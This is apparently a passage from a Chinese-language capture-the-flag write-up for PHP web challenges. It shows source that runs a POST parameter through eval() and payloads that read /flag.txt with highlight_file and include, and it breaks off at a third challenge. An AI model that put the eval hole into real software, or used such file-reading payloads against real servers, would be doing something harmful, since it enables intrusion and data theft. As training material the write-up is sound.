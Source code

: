> 
源码


```
&lt;?php

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}

```

> 
Payload


```
c=highlight_file('/flag.txt');

```

## web68

> 
源码


```
Warning: highlight_file() has been disabled for security reasons in /var/www/html/index.php on line 19

```

> 
Payload


```
c=include('/flag.txt');

```

## web69

> 
源码


```
Warning: highlight_file() has been disabled for security reasons in /var/www/html/index.php on line 19

```
